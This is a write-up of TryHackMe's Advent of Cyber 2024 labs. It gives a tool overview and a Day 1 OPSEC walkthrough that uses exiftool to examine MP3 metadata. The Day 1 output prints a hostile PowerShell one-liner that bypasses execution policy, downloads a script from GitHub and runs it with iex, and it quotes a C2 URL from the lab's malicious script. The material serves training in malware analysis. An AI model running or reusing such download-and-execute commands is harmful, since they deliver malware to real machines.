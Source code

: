 # Advent of Cyber 2024

## [Advent of Cyber 2024 on TryHackMe](https://tryhackme.com/room/adventofcyber2024)

## Overview

* **Difficulty:** Easy
* **Category:** Daily Challenges / Multi-topic Cybersecurity Challenges (Web, OPSEC, AD, PowerShell, Traffic Analysis, Game Hacking, etc.)
* **Skills Practiced:**

	* Cybersecurity fundamentals across diverse domains
	* Metadata analysis (`exiftool`)
	* PowerShell & Active Directory enumeration
	* Azure / Cloud security (Az modules)
	* Packet capture & traffic analysis (Wireshark)
	* Reverse-engineering & prompt injection
	* Game hacking techniques using Frida

## Tools & Techniques

* **AttackBox (or local environment)** – for executing daily tasks
* **Wireshark/tshark** – for traffic capture and protocol analysis (e.g., MQTT, HTTP)
* **exiftool** – for extracting metadata from media files
* **PowerShell** – for AD enumeration, event log investigation
* **Azure CLI / PowerShell Az module** – for cloud identity and key vault tasks
* **Burp Suite** – for inspecting HTTP requests (e.g., certificates, POST data)
* **Prompt injection techniques** – for interacting with AI or reverse shells
* **Frida** – for runtime hooking and dynamic instrumentation in game hacking
* **RDP** – for remote Windows machine interaction via `xfreerdp`

## Walkthrough (Step-by-Step)

### Day 1: OPSEC: Maybe SOC-mas music, he thought, doesn't come from a store?

* Download `song.mp3`, run `exiftool song.mp3`
* Explore malicious PowerShell script author and repo

	```bash
	exiftool song.mp3
	```

	**Output:**

	```
	Artist: Tyler Ramsbey
	```

	Now try the suspicious file:

	```bash
	exiftool somg.mp3
	```

	**Output:**

	```
	Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
	```

* If we navigate to, we can find: `$c2Url = "http://papash3ll.thm/data"`
* Now search in GitHub `Created by the one and only M.M.`, we can find the name of M.M.
* **M.M.** (from GitHub): Mayor Malware
* **Number of commits in repo**: 1

